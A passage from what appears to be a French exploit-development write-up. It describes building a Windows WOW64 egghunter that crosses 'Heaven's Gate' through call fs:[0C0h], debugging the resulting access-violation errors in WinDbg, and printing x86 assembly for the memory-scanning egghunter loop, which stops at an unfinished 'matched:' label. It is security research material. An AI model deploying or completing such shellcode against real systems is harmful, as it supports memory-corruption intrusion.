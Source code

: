 Et voilà ce qui semble être une transition vers du code 64 bits ! Ceci grâce à la fonction __KiFastSystemCall()__ qui est dans la dll __wow64cpu.dll__. On peut donc estimer que remplacer __int 2Eh__ par __call fs:[0C0h]__ permettra d'effectuer une transition vers du code 64 bits (Heaven's Gate): et cela fonctionne !

Cependant, quand on débugge on n'obtiens que des erreurs __C0000005__ signifiant que la page n'est pas accessible en lecture. Et ce même lorsque je spécifie une page de mon code, ou la stack. Il y a donc un problème. Regardons l'erreur avec Windbg.

![image alt text](/images/egghunter/egghunter_error.png)

On voit bien que l'erreur est un __C0000005__ qui provient de la fonction __whNtDisplayString()__ qui est dans la DLL __wow64.dll__. Le code plante donc une fois que l'on a traversé l'heaven's gate et donc que l'on est dans du code x64. Le code qui m'a permit de la générer est le suivant:

```
.586
.model flat, stdcall

.code

Start PROC

	push 	41414141h ; egg pushed onto stack
	push 	41414141h

	xor edx, edx ; to start looking address from 0x1000
loop_inc_page:
        or      dx, 0FFFh
 
loop_inc_one:
		xor ebx, ebx
        inc     edx
 
loop_check:
        push    edx
        mov	bl, 0D6h ; system number of NtDislayString
        push 	ebx
        pop     eax
        mov 	bl, 0C0h ; to jump to x64 code
        assume fs:nothing
        mov 	ebx,fs:[ebx]
        call 	ebx
        assume fs:error
        pop     edx
        cmp     al, 5
        
 
loop_check_8_valid:
        je      loop_inc_page
 
is_egg:
        mov     eax, 41414141h ; AABB
        mov     edi, edx
        scasd
        jnz     loop_inc_one
        scasd
        jnz     loop_inc_one
 
matched:
```